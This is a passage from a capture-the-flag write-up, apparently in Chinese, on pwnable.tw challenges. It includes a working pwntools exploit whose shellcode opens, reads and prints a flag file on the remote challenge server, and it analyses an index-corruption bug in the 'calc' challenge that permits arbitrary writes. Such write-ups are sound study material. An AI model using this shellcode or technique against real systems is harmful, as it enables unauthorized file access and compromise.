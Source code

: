     HERE is EXP:
    ```python
    from pwn import *
    shellcode = ''
    shellcode += asm('xor ecx,ecx;mov eax,0x5; push ecx;push 0x67616c66; push 0x2f77726f; push 0x2f656d6f; push 0x682f2f2f; mov ebx,esp;xor edx,edx;int 0x80;')
    shellcode += asm('mov eax,0x3;mov ecx,ebx;mov ebx,0x3;mov dl,0x30;int 0x80;')
    shellcode += asm('mov eax,0x4;mov bl,0x1;int 0x80;')
    context.log_level='debug'
    #p=process("./orw")
    p=remote('chall.pwnable.tw',10001)
    a=p.recvuntil("code:")
    print a
    p.send(shellcode)
    data=p.recvrepeat(2)
    print data
    ```
# calc
之前一直嫌麻烦没做...本来想着一个小时左右写掉...没想到耗了我...3个小时写exp....
tcl
tcl
## analysis
主要的漏洞存在于pool这个结构体和他的计算过程...
```c
struct pool
{
  int idx;
  int num[100];
}
```
eval()
```arm
pool *__cdecl eval(pool *pool, char op)
{
  pool *result; // eax

  if ( op == '+' )
  {
    pool->num[pool->idx - 2] += pool->num[pool->idx - 1];
  }
  else if ( op > '+' )
  {
    if ( op == 45 )
    {
      pool->num[pool->idx - 2] -= pool->num[pool->idx - 1];
    }
    else if ( op == '/' )
    {
      pool->num[pool->idx - 2] /= pool->num[pool->idx - 1];
    }
  }
  else if ( op == '*' )
  {
    pool->num[pool->idx - 2] *= pool->num[pool->idx - 1];
  }
  result = pool;
  --pool->idx;                                  // idx is the num of num ,we can use it to contrul the process
  return result;
}
```
计算过程是先找到离当前位置最近的符号然后调用eval主要的问题是没考虑符号开头的输入，如果遇到符号开头的输入就会把idx改变掉然后后面的计算可能会造成任意地址写

[1]: https://code.woboq.org/qt5/include/linux/prctl.h.html
[2]: https://n132.github.io/2018/11/15/2018-11-15-Hitcone-baby-tcache/
[3]: https://blog.csdn.net/qq_19683651/article/details/61418292
[4]: https://n132.github.io/2018/11/15/2018-11-15-Hitcone-baby-tcache/
[5]: https://n132.github.io/2019/02/11/Kidding/
[6]: https://n132.github.io/2018/11/27/2018-11-27-GETS-THE-SHELL/
[7]: https://n132.github.io/2018/11/27/2018-11-27-GETS-THE-SHELL/
[8]: https://n132.github.io/2019/02/23/mno2/
[9]: https://code.woboq.org/userspace/glibc/time/tzset.c.html#__tz_convert